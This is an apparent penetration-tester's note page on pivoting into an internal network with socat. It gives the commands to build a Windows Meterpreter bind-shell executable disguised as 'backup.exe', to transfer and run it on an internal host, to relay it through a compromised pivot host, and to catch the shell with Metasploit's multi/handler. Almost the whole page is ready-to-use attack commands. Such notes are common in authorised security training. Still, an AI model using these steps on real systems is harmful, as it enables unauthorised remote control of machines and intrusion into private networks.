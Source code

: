 -- -
A bidirectional relay tool. Creates a pipe socket between 2 independent network channels w/o needing to use ssh tunneling. You need to run the relay from the pivot host, so you **might** need to download socat, [[Dark Arts/File Transfer/~Home|file transfer]] it to the pivot host and run it there. 
### High-level overview
The workflow here is that you will create a bind shell on the target internal host. The pivot host will then redirect a stage request from your attackbox to the port where the bind shell is establishing the bind shell:![[55.webp]]
### Create payload
first, create a bind shell payload for the target internal host, in this case a windows internal host:
```bash
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=8443 -f exe -o backup.exe
```
[[Dark Arts/File Transfer/~Home|File transfer]] payload to pivot host, then to target internal host. Then run the payload on internal host.
### Setup Relay
On the pivot host, start the socat relay. Note that you **might** need to [[Dark Arts/File Transfer/~Home|file transfer]] socat to the pivot host to use it.
```bash
socat TCP4-LISTEN:8080,fork TCP4:<target ip>:8443
```
### Setup Bind Listener
```bash
msfconsole
use multi/handler
set payload windows/x64/meterpreter/bind_tcp
set RHOST <pivot ip>
set lport <8080>
run
```
